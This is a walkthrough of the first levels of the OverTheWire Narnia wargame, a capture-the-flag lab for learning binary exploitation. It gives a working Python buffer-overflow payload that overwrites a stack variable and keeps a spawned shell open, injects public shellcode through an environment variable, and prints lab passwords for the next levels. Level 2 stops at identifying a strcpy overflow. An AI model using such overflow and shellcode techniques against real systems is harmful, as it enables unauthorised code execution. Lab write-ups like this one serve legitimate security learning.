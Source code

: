 # Walkthrough for the Narnia of OTW

## Introduction:
Try it for yourself before you look for help ;)

## Preparations
I added the server ``narnia.labs.overthewire.org'' and port 2226
into the ssh config file:

    Host narnia.labs.overthewire.org
    port 2226

## Level 0:

Username: narnia0
Passwort: narnia0

The file ist stored in the directory /narnia, the application
is named narnia0, the source code is given in the file narnia0.c.

    cd /narnia

First of all we run the application once and take a look, what it does.

    ./narnia0

After prompting us with the target to change (aka. ``correct'') the value
from 0x41414141 -> 0xdeadbeef we are given the chance to enter something.
Entering ``something'' results in a hint, that this was not correct

    ./narnia0
    something

A single look into the source shows the path. The memory layout and use
of scanf cries for a buffer overflow. Now we just have to generate the payload
and ship it to the program.

Python can be used to create the payload:

    python -c "print(20*'a' + chr(0xef) + chr(0xbe) + chr(0xad) + chr(0xde))" | ./narnia0

which can be piped to the file. Now we are not yelled at, but nothing more is
happening. This is due to line 32. The opened shell is closed directly. This
can be fixed by piping multiple commands into the application:

    (python -c "print(20*'a' + chr(0xef) + chr(0xbe) + chr(0xad) + chr(0xde))"; cat)
        | ./narnia0

With the command ``whoami'' we can check, if everything worked:
    whoami
    -> narnia1

Fine, seems like it worked! Now we cat the password for the next level

    cat /etc/narnia_pass/narnia1

### Lessons learned:

Use ``cat'' to pass the input into the opened shell. This will be used in
many more cases.


## Level 1:

Username: narnia1
Passwort: [ efeidiedae ]

A quick peek in the source code shows, that the env var EGG has to be set.
Setting the var to commands like **ls** or **/bin/sh** results in a segfault.
This cries for runnable shellcode to be used.  We will use a shells-script from
a page liek shell-storm. At this moment i'm not capable of writing my own
shell-script from scratch without destroying everything.

Since we want a simple execve to bash i used the following script
    http://shell-storm.org/shellcode/files/shellcode-606.php
save the shellcode without the quotation marks and linebreaks in
a file **shellcode.comp**, upload it via scp and just pass it to EGG via echo:
    export EGG=$(echo -e $(cat shellcode.comp))

Now i can run ./narnia1, get the credentials for narnia2  and be happy

## Level 2:

Username: narnia1
Passwort: [ nairiepecu ]

The vulnerability is hidden in the strcpy and the size of 128 for the target
buffer. By copying more than 128 bytes the return adress can be modified

Using gdb and the python script **findLocation.py** finds the position of the 
return adress.
